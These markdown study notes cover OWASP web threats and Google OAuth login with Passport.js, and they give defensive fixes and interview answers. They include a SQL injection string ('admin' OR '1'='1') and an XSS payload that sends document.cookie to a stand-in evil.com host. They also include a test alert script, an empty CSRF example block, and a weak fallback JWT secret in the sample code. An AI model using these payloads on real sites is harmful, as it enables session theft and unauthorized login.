

# 🔍 Security Audit + OAuth Basics — Complete Study Notes

> Notes for becoming a strong software engineer. Easy language, real code, and interview-ready explanations.
> 👉 Fifth in the auth series — JWT → Access/Refresh → Password Security → RBAC → **Security Audit + OAuth (hardening + delegated login)**.

---

## 📌 1. What is a Security Audit? (in simple words)

A security audit means **checking your app for known weaknesses** before a hacker finds them. Think of it like a building inspection 🏢 — you walk through every door and window asking *"can someone break in here?"*

The industry-standard checklist is **OWASP** (Open Worldwide Application Security Project). They publish the **OWASP Top 10** — the most common and dangerous web vulnerabilities. Knowing these by name instantly makes you sound security-aware in interviews.

We'll focus on the four most-asked API threats: **SQL Injection, XSS, CSRF, and Broken Authentication.**

---

## 💉 2. SQL Injection (SQLi)

### The problem
You build a SQL query by **gluing user input directly into a string**. The attacker types SQL *as* their input, and your database runs it.

```js
// ❌ DANGEROUS — never do this
const query = `SELECT * FROM users WHERE email = '${email}' AND password = '${password}'`;
```

If the attacker enters as the email:
```
admin' OR '1'='1
```
The query becomes:
```sql
SELECT * FROM users WHERE email = 'admin' OR '1'='1' AND password = '...'
```
`'1'='1'` is **always true** → they log in without a password, or dump the whole table. 😱

### The fix → parameterised queries (prepared statements)
Never concatenate. Pass values **separately** from the query, so the DB treats them as **data, never as code**.

```js
// ✅ SAFE — parameterised query (the ? is a placeholder)
const query = 'SELECT * FROM users WHERE email = ? AND password = ?';
db.execute(query, [email, password]);

// ✅ With an ORM like Prisma — safe by default
const user = await prisma.user.findUnique({ where: { email } });
```

> 🎯 Interview line: *"SQL injection happens when user input is concatenated into a query. The fix is parameterised queries, so the database treats input strictly as data, never executable SQL. ORMs like Prisma do this for us by default."*

---

## 🧨 3. XSS — Cross-Site Scripting

### The problem
The attacker injects **malicious JavaScript** into your page. When another user views it, **their browser runs the attacker's script** — which can steal cookies, tokens, or hijack the session.

Example: a user sets their name to:
```html
<script>fetch('https://evil.com?c=' + document.cookie)</script>
```
If you render that name on a page without escaping, every visitor's cookie flies to the attacker.

### The fixes
1. **Sanitise / escape output** — convert `<script>` into harmless text (`&lt;script&gt;`). React does this **automatically** when you render `{userInput}` (this is a big reason React is XSS-resistant). Danger only returns if you use `dangerouslySetInnerHTML`.
2. **Set a Content-Security-Policy (CSP) header** — tells the browser *"only run scripts from my own domain"*, blocking injected inline scripts.
3. **Store tokens in `httpOnly` cookies** — so even if XSS runs, JavaScript can't read the token (links back to the refresh-token notes!).

```js
// Set a basic CSP + other security headers easily with Helmet
const helmet = require('helmet');
app.use(helmet()); // sets CSP, X-Frame-Options, and more sensible defaults
```

> 🎯 Interview line: *"XSS is when an attacker injects scripts that run in another user's browser. I defend with output escaping, a strict Content-Security-Policy, and keeping tokens in httpOnly cookies so injected scripts can't read them."*

---

## 🎣 4. CSRF — Cross-Site Request Forgery

### The problem
The attacker tricks a **logged-in** user's browser into making a request the user didn't intend. Because the browser **automatically attaches cookies**, the request looks legitimate.

Example: you're logged into your bank. You visit a shady site that secretly contains:
```html

```
Your browser sends the request **with your bank cookies attached** → money moves, and you never clicked anything. 😱

### The fixes
1. **`SameSite` cookies** — `SameSite=Strict` or `Lax` tells the browser *"don't send this cookie on cross-site requests."* This kills most CSRF on its own.
2. **CSRF tokens** — for state-changing requests (POST/PUT/DELETE), require a secret token that only your real site knows. The attacker's site can't guess it.
3. **Check Origin / Referer headers** for sensitive actions.

```js
res.cookie('refreshToken', token, {
  httpOnly: true,
  secure: true,
  sameSite: 'strict', // 🛡️ primary CSRF defence
});
```

> 🎯 Interview line: *"CSRF abuses the browser auto-sending cookies. I defend primarily with SameSite cookies, and add CSRF tokens for state-changing requests."*

> 💡 **XSS vs CSRF in one line:** XSS = attacker runs **their script on your site**. CSRF = attacker makes **your browser send a request** to a site you're logged into. Knowing the difference is a classic interview filter.

---

## 🔓 5. Broken Authentication

This is a broad category — weak login security. Key fixes:

| Weakness | Fix |
|---|---|
| Unlimited login guesses | **Rate limit** login attempts (e.g. 5 per minute per IP) |
| Brute-forcing one account | **Account lockout** after N failed tries (with cooldown) |
| Weak password storage | **bcrypt** (see password notes) |
| Leaky password reset | Hashed, single-use, short-expiry tokens (see password notes) |
| Predictable tokens | Use `crypto.randomBytes`, never `Math.random()` |
| No expiry on tokens | Short-lived access tokens (see access/refresh notes) |

```js
// Rate limiting login with express-rate-limit
const rateLimit = require('express-rate-limit');

const loginLimiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15 minutes
  max: 5,                    // 5 attempts per window per IP
  message: 'Too many login attempts, please try again later.',
});

app.post('/login', loginLimiter, loginHandler);
```

> 🎯 Interview line: *"For broken auth I rate-limit login, add account lockout on repeated failures, hash passwords with bcrypt, and keep reset tokens hashed, single-use, and short-lived."*

---

## 🪪 6. OAuth2 — "Login with Google" (delegated authentication)

### The big idea
OAuth2 lets users log into **your** app using their **Google / GitHub / Facebook** account — **without your app ever seeing their password**. Google vouches for the user instead.

Analogy 🏨: it's like a **hotel valet key**. You give the valet a limited key that can only park your car — not open your boot or glovebox. OAuth gives your app a *limited* token to access *specific* info (like the user's email), not their full Google account.

> Key insight: **OAuth2 is about *delegated authorization*** — getting limited access to a user's data on another service, which we then use for login.

### Why use Passport.js?
The OAuth2 flow has many security-sensitive steps (state parameter, code exchange, token handling). **Don't build it from scratch** — use a battle-tested library like **Passport.js**. Interviewers expect this answer.

### The Authorization Code Flow (with diagram)



**The flow in words (memorise this sequence):**
1. User clicks **"Login with Google"**.
2. Your app **redirects** to Google with your `client_id`, requested `scope`, a `redirect_uri`, and a random `state` (anti-CSRF).
3. User **logs in and approves** on Google's page (your app never sees the password).
4. Google **redirects back** to your `redirect_uri` with a one-time **authorization code**.
5. Your **server exchanges** that code (+ your secret `client_secret`) for an **access token** — this happens server-to-server, so the secret stays hidden.
6. Your server **fetches the user's profile** (email, name) using the access token.
7. You **create or update** that user in **your own DB**.
8. You **issue your own JWT** → from now on the user uses *your* token, and you're back to your normal auth system.

> 🔑 Why a *code* first, then exchange for a token? The code travels through the **browser** (less safe), but the actual **token** is fetched **server-to-server** with the secret. This keeps the token out of the browser/URL. This is the heart of the "authorization code" flow.

---

## 💻 7. Code Example — Google OAuth with Passport.js

```js
// oauth.js
const express = require('express');
const passport = require('passport');
const GoogleStrategy = require('passport-google-oauth20').Strategy;
const jwt = require('jsonwebtoken');

const app = express();
const JWT_SECRET = process.env.JWT_SECRET || 'my-secret';
const users = []; // fake DB

// ---------- Configure the Google strategy ----------
passport.use(
  new GoogleStrategy(
    {
      clientID: process.env.GOOGLE_CLIENT_ID,
      clientSecret: process.env.GOOGLE_CLIENT_SECRET,
      callbackURL: '/auth/google/callback', // Google redirects here with the code
    },
    // This runs AFTER Passport exchanges the code + fetches the profile
    (accessToken, refreshToken, profile, done) => {
      const email = profile.emails[0].value;

      // Create or update the user in YOUR database
      let user = users.find((u) => u.email === email);
      if (!user) {
        user = {
          id: profile.id,
          email,
          name: profile.displayName,
          provider: 'google',
        };
        users.push(user);
      }
      return done(null, user); // hand the user back to Passport
    }
  )
);

app.use(passport.initialize());

// ---------- Step 1: kick off the flow ----------
app.get(
  '/auth/google',
  passport.authenticate('google', { scope: ['profile', 'email'] })
);

// ---------- Step 2: Google redirects back here ----------
app.get(
  '/auth/google/callback',
  passport.authenticate('google', { session: false, failureRedirect: '/login' }),
  (req, res) => {
    // req.user is what we returned in done() above.
    // Now issue OUR OWN JWT — switch to our normal auth system.
    const token = jwt.sign(
      { sub: req.user.id, email: req.user.email },
      JWT_SECRET,
      { expiresIn: '15m' }
    );
    res.json({ message: 'Logged in with Google', accessToken: token });
  }
);

app.listen(3000, () => console.log('OAuth server on http://localhost:3000'));
```

> 💡 Notice: Passport hides steps 4–6 (code exchange + profile fetch) for you. Your job is just the **business logic** — find-or-create the user and issue *your* JWT.

---

## 🧪 8. Practical Audit — Test Your Own Auth

Run these checks against your app (the way an attacker would):

| Test | How | Expected (secure) result |
|---|---|---|
| **SQLi** | Login with email `admin' OR '1'='1` | Login **fails** (parameterised query) |
| **XSS** | Set your name to `<script>alert(1)</script>` | Renders as **text**, no popup |
| **CSRF** | Submit a state-changing request from another origin | **Blocked** by SameSite cookie |
| **Brute force** | Hit `/login` 20 times fast | **429 Too Many Requests** after limit |
| **Token leak** | Read the auth cookie via `document.cookie` in console | **Empty** (httpOnly) |

> 🎯 Doing this hands-on once gives you real stories to tell in interviews — *"I tested my login with `' OR '1'='1` and confirmed parameterised queries blocked it."* That sounds far stronger than reciting theory.

---

## 🎤 9. How to Explain in an Interview

**On the OWASP threats:**
> "I audit against the OWASP Top 10. For SQL injection I use parameterised queries; for XSS I escape output, set a CSP, and keep tokens in httpOnly cookies; for CSRF I use SameSite cookies plus CSRF tokens; and for broken auth I rate-limit login, add account lockout, and use bcrypt with secure reset tokens."

**On OAuth:**
> "OAuth2's authorization code flow lets users log in with Google without us ever handling their password. Google redirects back with a one-time code, our server exchanges it for an access token, fetches the profile, creates or updates the user in our DB, and then issues our own JWT. I'd use Passport.js rather than implementing it by hand."

> 🟢 Trap question: *"Why exchange a code instead of getting the token directly?"* → *"Because the code passes through the browser, which is less secure. The token is fetched server-to-server using the client secret, so the secret and token never get exposed in the browser or URL."*

> 🟢 Trap question: *"Is OAuth authentication or authorization?"* → *"OAuth2 is technically about *authorization* (delegated access to data). We *use* it for authentication — that role is formalised by OpenID Connect, which sits on top of OAuth2 and adds an ID token."*

---

## 💎 10. Impressive Words & Phrases

| Instead of saying... | Say this 💪 |
|---|---|
| "Hacking input into the query" | "**SQL injection** via **unsanitised input**" |
| "Use ? in queries" | "Use **parameterised queries / prepared statements**" |
| "Bad script on page" | "**Cross-Site Scripting (XSS)**" |
| "Clean the input" | "**Sanitise and escape output**, enforce a **CSP**" |
| "Fake request trick" | "**Cross-Site Request Forgery (CSRF)**" |
| "Limit login tries" | "**Rate limiting** and **account lockout**" |
| "Login with Google" | "**Delegated authentication** via **OAuth2 authorization code flow**" |
| "Google's permission" | "**Scopes** and **consent**" |
| "Random anti-fake value" | "The **`state` parameter** for **CSRF protection**" |
| "OAuth but for login" | "**OpenID Connect (OIDC)** on top of OAuth2" |

**Power vocabulary:** *OWASP Top 10, parameterised queries, output escaping, Content-Security-Policy, SameSite cookies, CSRF token, rate limiting, account lockout, principle of defence-in-depth, OAuth2 authorization code flow, scopes, consent screen, state parameter, OpenID Connect, delegated authorization.*

> 🌶️ Bonus flex — **Defence in Depth:** *"I don't rely on a single control. Layered defences mean if one fails, others still protect the system."* This phrase shows mature security thinking.

---

## ⏱️ 11. Quick Revision (read 5 min before interview)

> **OWASP Top 4 (threat → fix):**
> - **SQLi** → parameterised queries (input is data, not code). Test: `admin' OR '1'='1`.
> - **XSS** → escape output + CSP header + httpOnly cookies.
> - **CSRF** → SameSite cookies + CSRF tokens for state-changing requests.
> - **Broken auth** → rate limit + account lockout + bcrypt + secure reset tokens.
>
> **XSS vs CSRF:** XSS = attacker's script runs on your site. CSRF = your browser sends a forged request.
>
> **OAuth2 code flow:** click Login with Google → redirect to Google → user approves → Google returns a **code** → server exchanges code (+secret) for **token** → fetch profile → create/update user in your DB → issue **your own JWT**. Use **Passport.js**, don't build it raw.
>
> **Why a code first?** Code travels via browser (less safe); token fetched server-to-server so the secret stays hidden.
>
> **OAuth vs OIDC:** OAuth2 = authorization; OpenID Connect adds the identity/login layer.
>
> **Golden line:** *"Defence in depth — layer multiple controls so no single failure breaks security."*

---

### ✅ Practice checklist
- [ ] Replace any string-concatenated SQL with parameterised queries
- [ ] Add `helmet()` for CSP + security headers
- [ ] Set `sameSite: 'strict'` on auth cookies
- [ ] Add `express-rate-limit` to the login route
- [ ] Test SQLi with `admin' OR '1'='1` and confirm it fails
- [ ] Confirm `document.cookie` can't read the auth token (httpOnly)
- [ ] Add **Login with Google** using Passport.js
- [ ] In the callback, find-or-create the user, then issue your own JWT

🎉 **Series complete!** You now have the full authentication & security foundation: token format (JWT), token strategy (access/refresh), credential storage (passwords), access control (RBAC), and hardening + delegated login (this one). Master all five and you can confidently handle any auth question in an interview or a real production system. 🚀
